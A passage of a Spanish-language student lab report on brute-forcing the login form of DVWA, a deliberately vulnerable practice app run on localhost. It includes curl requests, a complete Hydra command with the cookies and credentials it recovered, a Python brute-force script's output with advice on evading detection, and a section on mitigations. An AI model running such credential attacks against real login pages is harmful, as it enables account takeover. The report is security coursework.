<li class=""><a href="../../setup.php">Setup / Reset DB</a></li>
</ul><ul class="menuBlocks"><li class="selected"><a href="../../vulnerabilities/brute/">Brute Force</a></li>
<li class=""><a href="../../vulnerabilities/exec/">Command Injection</a></li>
<li class=""><a href="../../vulnerabilities/csrf/">CSRF</a></li>
<li class=""><a href="../../vulnerabilities/fi/.?page=include.php">File Inclusion</a></li>
<li class=""><a href="../../vulnerabilities/upload/">File Upload</a></li>
<li class=""><a href="../../vulnerabilities/captcha/">Insecure CAPTCHA</a></li>
<li class=""><a href="../../vulnerabilities/sqli/">SQL Injection</a></li>
<li class=""><a href="../../vulnerabilities/sqli_blind/">SQL Injection (Blind)</a></li>
<li class=""><a href="../../vulnerabilities/weak_id/">Weak Session IDs</a></li>
<li class=""><a href="../../vulnerabilities/xss_d/">XSS (DOM)</a></li>
<li class=""><a href="../../vulnerabilities/xss_r/">XSS (Reflected)</a></li>
<li class=""><a href="../../vulnerabilities/xss_s/">XSS (Stored)</a></li>
<li class=""><a href="../../vulnerabilities/csp/">CSP Bypass</a></li>
<li class=""><a href="../../vulnerabilities/javascript/">JavaScript</a></li>
</ul><ul class="menuBlocks"><li class=""><a href="../../security.php">DVWA Security</a></li>
<li class=""><a href="../../phpinfo.php">PHP Info</a></li>
<li class=""><a href="../../about.php">About</a></li>
</ul><ul class="menuBlocks"><li class=""><a href="../../logout.php">Logout</a></li>
</ul>
				</div>

			</div>

			<div id="main_body">

				
<div class="body_padded">
	<h1>Vulnerability: Brute Force</h1>

	<div class="vulnerable_code_area">
		<h2>Login</h2>

		<form action="#" method="GET">
			Username:<br />
			<input type="text" name="username"><br />
			Password:<br />
			<input type="password" AUTOCOMPLETE="off" name="password"><br />
			<br />
			<input type="submit" value="Login" name="Login">

		</form>
		<p>Welcome to the password protected area admin</p><img src="/hackable/users/admin.jpg" />
	</div>

	<h2>More Information</h2>
	<ul>
		<li><a href="https://www.owasp.org/index.php/Testing_for_Brute_Force_(OWASP-AT-004)" target="_blank">https://www.owasp.org/index.php/Testing_for_Brute_Force_(OWASP-AT-004)</a></li>
		<li><a href="http://www.symantec.com/connect/articles/password-crackers-ensuring-security-your-password" target="_blank">http://www.symantec.com/connect/articles/password-crackers-ensuring-security-your-password</a></li>
		<li><a href="http://www.sillychicken.co.nz/Security/how-to-brute-force-http-forms-in-windows.html" target="_blank">http://www.sillychicken.co.nz/Security/how-to-brute-force-http-forms-in-windows.html</a></li>
	</ul>
</div>

				<br /><br />
				

			</div>

			<div class="clear">
			</div>

			<div id="system_info">
				<input type="button" value="View Help" class="popup_button" id='help_button' data-help-url='../../vulnerabilities/view_help.php?id=brute&security=low' )"> <input type="button" value="View Source" class="popup_button" id='source_button' data-source-url='../../vulnerabilities/view_source.php?id=brute&security=low' )"> <div align="left"><em>Username:</em> admin<br /><em>Security Level:</em> low<br /><em>PHPIDS:</em> disabled</div>
			</div>

			<div id="footer">

				<p>Damn Vulnerable Web Application (DVWA) v1.10 *Development*</p>
				<script src='/dvwa/js/add_event_listeners.js'></script>

			</div>

		</div>

	</body>

</html>
\end{verbatim}
PAR INVALIDO
\begin{verbatim}
$ curl "http://localhost:8889/vulnerabilities/brute/?username=njnkyuuykmn&password=jnjrjrnfjer&Login=Login" \
-b "PHPSESSID=knd082p12k28do4ttsn47hfd35; security=low"

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">

	<head>
		<meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />

		<title>Vulnerability: Brute Force :: Damn Vulnerable Web Application (DVWA) v1.10 *Development*</title>

		<link rel="stylesheet" type="text/css" href="../../dvwa/css/main.css" />

		<link rel="icon" type="\image/ico" href="../../favicon.ico" />

		<script type="text/javascript" src="../../dvwa/js/dvwaPage.js"></script>

	</head>

	<body class="home">
		<div id="container">

			<div id="header">

				<img src="../../dvwa/images/logo.png" alt="Damn Vulnerable Web Application" />

			</div>

			<div id="main_menu">

				<div id="main_menu_padded">
				<ul class="menuBlocks"><li class=""><a href="../../.">Home</a></li>
<li class=""><a href="../../instructions.php">Instructions</a></li>
<li class=""><a href="../../setup.php">Setup / Reset DB</a></li>
</ul><ul class="menuBlocks"><li class="selected"><a href="../../vulnerabilities/brute/">Brute Force</a></li>
<li class=""><a href="../../vulnerabilities/exec/">Command Injection</a></li>
<li class=""><a href="../../vulnerabilities/csrf/">CSRF</a></li>
<li class=""><a href="../../vulnerabilities/fi/.?page=include.php">File Inclusion</a></li>
<li class=""><a href="../../vulnerabilities/upload/">File Upload</a></li>
<li class=""><a href="../../vulnerabilities/captcha/">Insecure CAPTCHA</a></li>
<li class=""><a href="../../vulnerabilities/sqli/">SQL Injection</a></li>
<li class=""><a href="../../vulnerabilities/sqli_blind/">SQL Injection (Blind)</a></li>
<li class=""><a href="../../vulnerabilities/weak_id/">Weak Session IDs</a></li>
<li class=""><a href="../../vulnerabilities/xss_d/">XSS (DOM)</a></li>
<li class=""><a href="../../vulnerabilities/xss_r/">XSS (Reflected)</a></li>
<li class=""><a href="../../vulnerabilities/xss_s/">XSS (Stored)</a></li>
<li class=""><a href="../../vulnerabilities/csp/">CSP Bypass</a></li>
<li class=""><a href="../../vulnerabilities/javascript/">JavaScript</a></li>
</ul><ul class="menuBlocks"><li class=""><a href="../../security.php">DVWA Security</a></li>
<li class=""><a href="../../phpinfo.php">PHP Info</a></li>
<li class=""><a href="../../about.php">About</a></li>
</ul><ul class="menuBlocks"><li class=""><a href="../../logout.php">Logout</a></li>
</ul>
				</div>

			</div>

			<div id="main_body">

				
<div class="body_padded">
	<h1>Vulnerability: Brute Force</h1>

	<div class="vulnerable_code_area">
		<h2>Login</h2>

		<form action="#" method="GET">
			Username:<br />
			<input type="text" name="username"><br />
			Password:<br />
			<input type="password" AUTOCOMPLETE="off" name="password"><br />
			<br />
			<input type="submit" value="Login" name="Login">

		</form>
		<pre><br />Username and/or password incorrect.</pre>
	</div>

	<h2>More Information</h2>
	<ul>
		<li><a href="https://www.owasp.org/index.php/Testing_for_Brute_Force_(OWASP-AT-004)" target="_blank">https://www.owasp.org/index.php/Testing_for_Brute_Force_(OWASP-AT-004)</a></li>
		<li><a href="http://www.symantec.com/connect/articles/password-crackers-ensuring-security-your-password" target="_blank">http://www.symantec.com/connect/articles/password-crackers-ensuring-security-your-password</a></li>
		<li><a href="http://www.sillychicken.co.nz/Security/how-to-brute-force-http-forms-in-windows.html" target="_blank">http://www.sillychicken.co.nz/Security/how-to-brute-force-http-forms-in-windows.html</a></li>
	</ul>
</div>

				<br /><br />
				

			</div>

			<div class="clear">
			</div>

			<div id="system_info">
				<input type="button" value="View Help" class="popup_button" id='help_button' data-help-url='../../vulnerabilities/view_help.php?id=brute&security=low' )"> <input type="button" value="View Source" class="popup_button" id='source_button' data-source-url='../../vulnerabilities/view_source.php?id=brute&security=low' )"> <div align="left"><em>Username:</em> admin<br /><em>Security Level:</em> low<br /><em>PHPIDS:</em> disabled</div>
			</div>

			<div id="footer">

				<p>Damn Vulnerable Web Application (DVWA) v1.10 *Development*</p>
				<script src='/dvwa/js/add_event_listeners.js'></script>

			</div>

		</div>

	</body>

</html>
\end{verbatim}
\subsection{Demuestra 4 diferencias (curl)}

\begin{enumerate}
    \item El acceso válido incluye el mensaje ``Welcome to the password protected area admin'' dentro de un párrafo HTML, mientras que el intento fallido despliega ``Username and/or password incorrect.'' en un bloque preformateado (`<pre>`), evidenciando estados opuestos del formulario.
    \item La respuesta exitosa incorpora la etiqueta `<img src="/hackable/users/admin.jpg" />`, cargando la fotografía asociada al usuario autenticado; en la respuesta inválida no se genera ninguna imagen adicional.
    \item En el caso exitoso aparece la cadena ``admin'' dentro del mensaje de bienvenida, confirmando el usuario autenticado, pero la página con credenciales erróneas no referencia a ningún nombre de usuario en la zona de resultados.
    \item El HTML válido provoca una solicitud extra para obtener `/hackable/users/admin.jpg`, observable en herramientas de monitoreo de tráfico, mientras que el HTML del intento inválido no dispara peticiones adicionales más allá del propio documento.
\end{enumerate}

\subsection{Instalación y versión a utilizar (hydra)}
https://hub.docker.com/r/vanhauser/hydra
docker pull vanhauser/hydra
sudo usermod -aG docker $USER
~$ cp usuarios.txt contrasenas.txt /tmp
camilo@camilo-Aspire-A315-56:~$ cd /tmp




\subsection{Explicación de comando a utilizar (hydra)}

Para realizar el ataque se ejecutó la imagen oficial de Hydra en Docker y se configuraron los parámetros clave del módulo `http-get-form`:
\begin{itemize}
        \item \texttt{--network="host"}: expone la red del contenedor para alcanzar el DVWA publicado en el puerto 8889 del host.
        \item \texttt{-v "$(pwd)":/data}: monta el directorio actual dentro del contenedor para compartir diccionarios y registrar el resultado en \texttt{/data}.
        \item \texttt{-L} y \texttt{-P}: apuntan a los diccionarios ligeros de usuarios y contraseñas preparados previamente.
        \item \texttt{-s 8889 localhost http-get-form}: especifica el puerto, host y módulo de Hydra que automatiza envíos GET sobre el formulario objetivo.
        \item Cadena del formulario \texttt{'/vulnerabilities/brute/:...'}: define los nombres de los campos \texttt{username} y \texttt{password}, la acción \texttt{Login}, inyecta la cookie de sesión con \texttt{H=Cookie: PHPSESSID=...; security=low} y usa \texttt{S=} para detectar éxito cuando aparece ``Welcome to the password protected area''.
        \item \texttt{-o /data/hydra_light.txt}: guarda el log con las combinaciones válidas encontradas.
\end{itemize}

	extbf{Comando ejecutado}
\begin{verbatim}
$ sudo docker run --rm --network="host" -v "$(pwd)":/data vanhauser/hydra \
    -L /data/usuarios_light.txt -P /data/contrasenas_light.txt -s 8889 \
    localhost http-get-form \
        '/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie\: PHPSESSID=knd082p12k28do4ttsn47hfd35; security=low:S=Welcome to the password protected area' \
    -o /data/hydra_light.txt
\end{verbatim}

	extbf{Resultado relevante}
\begin{verbatim}
[8889][http-get-form] ... login: admin   password: password
[8889][http-get-form] ... login: gordonb password: abc123
1 of 1 target successfully completed, 2 valid passwords found
\end{verbatim}

Los pares válidos obtenidos fueron:
\begin{itemize}
        \item Usuario \texttt{admin} con la contraseña \texttt{password}.
        \item Usuario \texttt{gordonb} con la contraseña \texttt{abc123}.
\end{itemize}

\subsection{Obtención de al menos 2 pares (hydra)}

\subsection{Explicación paquete curl (tráfico)}

\subsection{Explicación paquete burp (tráfico)}

\subsection{Explicación paquete hydra (tráfico)}

\subsection{Mención de las diferencias (tráfico)}

\subsection{Detección de SW (tráfico)}

\subsection{Interacción con el formulario (python)}

\subsection{Cabeceras HTTP (python)}

\subsection{Obtención de al menos 2 pares (python)}
\begin{verbatim}
camilo@camilo-Aspire-A315-56:/tmp$ sudo nano brute_force_script.py
[sudo] contraseña para camilo: 
camilo@camilo-Aspire-A315-56:/tmp$ sudo python3 brute_force_script.py
================================================================================
SCRIPT DE FUERZA BRUTA - DVWA
================================================================================

================================================================================
EXPLICACIÓN DE CABECERAS HTTP UTILIZADAS EN EL ATAQUE DE FUERZA BRUTA
================================================================================

User-Agent:
  - Propósito: Identifica el navegador/cliente que realiza la petición.
  - Importancia en este ataque: CRÍTICA. Simula un navegador real para evitar una detección trivial de bots o scripts.

Accept:
  - Propósito: Le dice al servidor qué tipos de contenido (MIME types) puede entender el cliente.
  - Importancia en este ataque: Alta. Hace que la petición parezca más legítima, imitando el comportamiento de un navegador estándar.

Connection:
  - Propósito: Controla si la conexión de red se mantiene abierta después de que finalice la transacción actual.
  - Importancia en este ataque: Media. Usar 'keep-alive' mejora el rendimiento del ataque al reutilizar la misma conexión TCP para múltiples peticiones.

Cookie:
  - Propósito: Contiene datos de sesión almacenados. En DVWA, gestiona el ID de sesión (PHPSESSID) y el nivel de seguridad.
  - Importancia en este ataque: ABSOLUTAMENTE CRÍTICA. Sin una cookie de sesión válida, cada petición sería anónima y el ataque fallaría, ya que el servidor no podría mantener el estado de autenticación.

================================================================================
4 MÉTODOS COMUNES PARA PREVENIR/MITIGAR ATAQUES DE FUERZA BRUTA
================================================================================

1. Rate Limiting y Bloqueo de Cuentas:
  - Limita el número de intentos de login desde una IP en un tiempo determinado y bloquea la cuenta tras varios fallos.


2. CAPTCHA:
  - Presenta un desafío que es fácil para humanos pero difícil para bots, usualmente tras detectar varios intentos fallidos.


3. Autenticación de Múltiples Factores (MFA):
  - Requiere una segunda forma de verificación además de la contraseña (ej. un código del teléfono), haciendo que la contraseña por sí sola sea inútil.


4. Monitoreo y Análisis de Comportamiento:
  - Utiliza sistemas (como un WAF) para detectar patrones de ataque anómalos (ej. intentos desde múltiples IPs, horas inusuales) y bloquearlos proactivamente.


================================================================================
COMPARACIÓN DE RENDIMIENTO DE HERRAMIENTAS
================================================================================

| Herramienta      | Velocidad | Detección (Sigilo) | Configuración | Flexibilidad |
|------------------|-----------|--------------------|---------------|--------------|
| Script Python    | Media     | Muy Alta           | Alta          | Muy Alta     |
| Hydra            | Muy Alta  | Baja               | Media         | Media        |
| Burp Suite       | Alta      | Alta               | Baja          | Alta         |
| cURL (en script) | Baja      | Muy Alta           | Manual        | Baja         |
    

Análisis Comparativo:
  - Velocidad: Hydra es el rey de la velocidad gracias a su motor multihilo optimizado en C. Burp Suite también es muy rápido. El script de Python es más lento por defecto debido al intérprete, pero puede mejorarse con librerías asíncronas.
  - Detección (Sigilo): El script de Python es el más sigiloso. Permite un control total sobre delays, proxies rotativos y la aleatorización de User-Agents, haciendo el ataque casi indistinguible del tráfico humano. cURL es similarmente sigiloso pero a costa de ser manual. Hydra, por su alta velocidad y patrones de petición predecibles, es el más fácil de detectar por un WAF o un IDS.
  - Flexibilidad: Python gana por goleada. Puede manejar cualquier lógica compleja: CSRF tokens que cambian en cada petición, desafíos JavaScript, o flujos de autenticación de varios pasos. Burp Suite es también muy flexible con sus macros. Hydra está más limitado a escenarios de login estándar.
    

================================================================================
EJECUCIÓN DEL ATAQUE DE FUERZA BRUTA
================================================================================
=> Ingrese la URL base de DVWA (ej. http://localhost:8889): http://localhost:8889
=> Ingrese su cookie PHPSESSID: knd082p12k28do4ttsn47hfd35
=> Ingrese el nivel de seguridad (low/medium/high) [low]: low

[INFO] Listas cargadas: 5 usuarios, 5 contraseñas.
[INFO] Iniciando ataque de fuerza bruta...
[INFO] Usuarios: 5, Contraseñas: 5
[INFO] Total de combinaciones a probar: 25
[INFO] URL objetivo: http://localhost:8889/vulnerabilities/brute/
[INFO] Delay entre intentos: 0.2s
------------------------------------------------------------
[SUCCESS] ✓ Credenciales válidas encontradas: admin:password                    
[SUCCESS] ✓ Credenciales válidas encontradas: pablo:letmein                     
[SUCCESS] ✓ Credenciales válidas encontradas: smithy:password                   
[0025/0025] Probando smithy:123456...                      
------------------------------------------------------------

================================================================================
RESULTADOS DEL ATAQUE
================================================================================
[SUCCESS] Se encontraron 3 combinaciones válidas:
  1. Usuario: 'admin' | Contraseña: 'password'
  2. Usuario: 'pablo' | Contraseña: 'letmein'
  3. Usuario: 'smithy' | Contraseña: 'password'

[INFO] Ataque completado.
\end{verbatim}

\subsection{Comparación de rendimiento con Hydra, Burpsuite, y cURL (python)}

\newpage
\subsection{Demuestra 4 métodos de mitigación (investigación)}


1. Rate Limiting (Limitación de Tasa) y Bloqueo de Cuentas

Este es uno de los métodos de defensa más fundamentales y directos. Su objetivo es ralentizar a los atacantes hasta el punto en que un ataque de fuerza bruta se vuelva impráctico.

    Funcionamiento:

        Limitación de Tasa: El sistema impone un límite estricto en la cantidad de intentos de inicio de sesión permitidos desde una misma dirección IP o para un nombre de usuario específico dentro de un período de tiempo determinado (por ejemplo, no más de 5 intentos por minuto).

        Bloqueo de Cuentas: Si se supera el umbral de intentos fallidos, la cuenta de usuario se bloquea temporalmente.

        Retraso Progresivo (Exponential Backoff): Una estrategia avanzada es aumentar el tiempo de bloqueo con cada serie de intentos fallidos. Por ejemplo, el primer bloqueo puede ser de 1 minuto, el segundo de 5, el tercero de 30, y así sucesivamente.

    Escenarios más eficaces:

        Es ideal para cualquier sistema con autenticación de usuarios, desde redes sociales hasta aplicaciones empresariales y APIs.

        Resulta especialmente efectivo para detener ataques automatizados de "fuerza bruta tonta", que intentan miles de combinaciones rápidamente desde una única fuente.

    Ventajas y Desventajas:

        Ventajas: Es relativamente fácil de implementar y, si se calibra bien, es transparente para los usuarios legítimos, quienes raramente fallan su contraseña tantas veces seguidas.

        Desventajas: Los atacantes sofisticados pueden evadirlo utilizando una red distribuida de IPs (botnet) para que cada IP realice pocos intentos, o llevando a cabo ataques de "baja y lenta" (low and slow), donde los intentos se espacian en el tiempo para no activar los umbrales.

2. CAPTCHA (Prueba de Turing Pública y Automática para Diferenciar a Computadoras de Humanos)

El objetivo del CAPTCHA es introducir un paso en el proceso de inicio de sesión que sea trivial para un ser humano, pero muy difícil de resolver para un script automatizado.

    Funcionamiento:

        Después de uno o varios intentos de inicio de sesión fallidos, el formulario presenta al usuario un desafío.

        Estos desafíos pueden variar desde identificar letras y números distorsionados, seleccionar todas las imágenes que contengan un objeto específico (como semáforos o bicicletas), hasta sistemas más modernos como reCAPTCHA de Google que analizan el comportamiento del usuario (movimiento del ratón, historial de navegación) para determinar si es un humano.

    Escenarios más eficaces:

        Es muy común en formularios de registro públicos, secciones de comentarios y procesos de pago para prevenir la creación de cuentas falsas y el spam.

        Es una excelente segunda línea de defensa cuando se detecta un comportamiento que parece automatizado.

    Ventajas y Desventajas:

        Ventajas: Es altamente efectivo para detener la gran mayoría de los bots de fuerza bruta simples y de nivel intermedio.

        Desventajas: Puede afectar negativamente la experiencia del usuario, siendo a menudo frustrante o incluso inaccesible para personas con discapacidades visuales. Además, los avances en IA y los "servicios de resolución de CAPTCHAs" (donde humanos resuelven CAPTCHAs a bajo costo para los atacantes) han reducido su efectividad.

3. Autenticación Multifactor (MFA / 2FA)

MFA es una de las defensas más robustas porque vuelve obsoleta la contraseña como único punto de fallo.

    Funcionamiento:

        El sistema requiere que el usuario proporcione dos o más pruebas (o "factores") para verificar su identidad. Estos factores se suelen clasificar en:

            Algo que sabes: La contraseña o un PIN.

            Algo que tienes: Un código de un solo uso generado por una aplicación en tu teléfono (ej. Google Authenticator), un token de hardware (YubiKey) o un SMS.

            Algo que eres: Un dato biométrico como tu huella digital o reconocimiento facial.

    Escenarios más eficaces:

        Es indispensable para sistemas que manejan información crítica o sensible, como aplicaciones bancarias, proveedores de correo electrónico y cuentas con privilegios de administrador.

        Cualquier servicio donde el compromiso de una cuenta tendría consecuencias graves.

    Ventajas y Desventajas:

        Ventajas: Ofrece una capa de seguridad excepcionalmente alta. Incluso si un atacante logra robar una base de datos completa de contraseñas, no podrá acceder a las cuentas sin el segundo factor físico.

        Desventajas: Introduce un paso adicional en el inicio de sesión, lo que puede ser visto como una inconveniencia por los usuarios. También crea una dependencia de un dispositivo secundario, que puede perderse, ser robado o quedarse sin batería.

4. Monitoreo y Bloqueo Basado en IP/Geolocalización

Esta es una estrategia proactiva que busca identificar y neutralizar a los atacantes antes de que puedan realizar muchos intentos, basándose en el análisis de metadatos y patrones de comportamiento.

    Funcionamiento:

        Análisis de Tráfico: Se utilizan herramientas como Firewalls de Aplicaciones Web (WAF) o sistemas de detección de intrusiones (IDS) para analizar patrones en tiempo real.

        Listas Negras y Reputación: El sistema puede bloquear automáticamente direcciones IP que son conocidas por actividades maliciosas (proxies anónimos, nodos de salida de Tor, IPs en listas de spam).

        Geolocalización: Si una aplicación sirve principalmente a un país o región, se pueden bloquear los intentos de inicio de sesión provenientes de ubicaciones geográficas donde no se espera tener usuarios legítimos.

        Análisis de Comportamiento: Los sistemas más avanzados utilizan machine learning para crear una línea base del comportamiento "normal" y detectar anomalías, como un usuario que intenta iniciar sesión desde dos continentes diferentes en un lapso de 5 minutos.

    Escenarios más eficaces:

        Ideal para aplicaciones con una base de usuarios geográficamente concentrada.

        Infraestructuras que ya cuentan con un WAF, ya que muchas de estas funcionalidades vienen incorporadas.

    Ventajas y Desventajas:

        Ventajas: Puede detener ataques distribuidos y de "baja y lenta" que otras defensas podrían pasar por alto. Ofrece una protección proactiva a nivel de red, antes de que el ataque llegue a la lógica de la aplicación.

        Desventajas: Es propenso a "falsos positivos", donde se podría bloquear a un usuario legítimo que viaja o utiliza una VPN por razones de privacidad. Mantener las listas de reputación de IP actualizadas requiere un esfuerzo constante.
% Please add the following required packages to your document preamble:
%\begin{table}[htbp]

\section*{Conclusiones y comentarios}

\end{document}
